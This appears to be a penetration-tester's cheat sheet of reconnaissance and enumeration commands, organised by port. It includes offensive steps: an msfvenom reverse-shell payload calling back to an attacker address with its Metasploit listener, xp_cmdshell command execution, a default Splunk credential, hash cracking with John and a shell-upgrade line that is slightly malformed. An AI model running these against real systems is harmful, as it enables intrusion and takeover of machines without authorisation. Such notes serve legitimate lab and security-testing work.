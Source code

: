 # Recon & Enum
## The basic
Data and information gathering.

## [nmap](https://nmap.org/book/man.html)
1. Host scan
```
nmap -p 1-65535 -v -A -Pn [IP_ADDR]
nmap -sC -sV -A -p- -v [IP_ADDR]
```

## Commonly seen port (Default port num)
### FTP (21)
```
ftp [IP_ADDR]
anonymous sign in
```

### SSH (22)
```
ssh [USERNAME]@[IP_ADDR]
```

### HTTP (80) / HTTPS (443)
```
gobuster dir -u [URL] -w [WORDLIST]   # Files enumeration
nikto -h [URL]
davtest -url [URL]    # PUT method test
cadaver [IP_ADDR]
```

### Kerberos (88)


### Network File System (111 & 2049)
```
showmount -e [IP_ADDR]
mount -t nfs [IP_ADDR]:/[Remote_Folder] [Local_Folder]/
```

### SMB (445)
```
smbclient -L [IP_ADDR]    # To list out available directories
smbclient \\\\[IP_ADDR]\\[DIRECTORY]    # To show directory content
smbclient \\\\[IP_ADDR]\\[DIRECTORY] --username=[USERNAME]    # Sign in with username
```
MS17-010 EternalBlue exploitation for SMBv1 in Windows Vista, 7, 8.1, 10; Server 2008, 2012, 2016
SMB share folder mounting
```
mkdir /mnt/[FOLDER_NAME]
mount -t cifs -o username=[USERNAME] //[IP_ADDR]/[SHARED_PATH] /mnt/[FOLDER_NAME]
```
Mounting VHD file
Ref: https://www.how2shout.com/linux/mount-virtual-hard-disk-vhd-file-ubuntu-linux/

### Microsoft SQL (1433)
```
impacket-mssqlclient [DOMAIN]/[USERNAME]@[IP_ADDR] -windows-auth    # Connect to mssql server
SELECT IS_SRVROLEMEMBER('sysadmin')   # Check for sysadmin privileage; return 1 for true, 0 for false
SELECT name FROM master.dbo.sysdatabases    # Retrieve list of databases
EXEC master..xp_cmdshell '[CMD]'    # Execute remote command with sysadmin privileage
```

### MySQL (3306)
```
mysql -u [USERNAME] -h [IP_ADDR] -p   # Connect to mysql server
```

### RDP (3389)

### SPLUNK (8089)
```
Default Credential 
admin:changeme
```

# Working with MSFVENOM and MSFCONSOLE
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[MY_IP_ADDR] LPORT=4444 -f [asp/aspx/php/filetype] > [OUTPUT_FILE.asp/aspx/php/filetype]

----------------------------------
msfconsole:
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp   # payload match with the one used in venom
run     # start listener

----------------------------------
meterpreter session:
getuid     # get current user session
sysinfo    # get information of the remote system
background / ctrl+z
use post/multi/recon/local_exploit_suggester    # set session number
```
## Cisco router password cracker
https://github.com/axcheron/cisco_pwdecrypt
https://www.ifm.net.nz/cookbooks/cisco-ios-enable-secret-password-cracker.html

## Netcat
Listener (on attacker machine)
```
nc -lnvp [PORT]
l = listen; n = ip addresses only, no DNS lookup; v = verbose; p = local port
```

## John
```
john [hash_file] --format=Raw-SHA1 --wordlist=/usr/share/wordlists/rockyou.txt
```

## Python
```
python3 'import pty;pty.spawn("/bin/bash");'
```

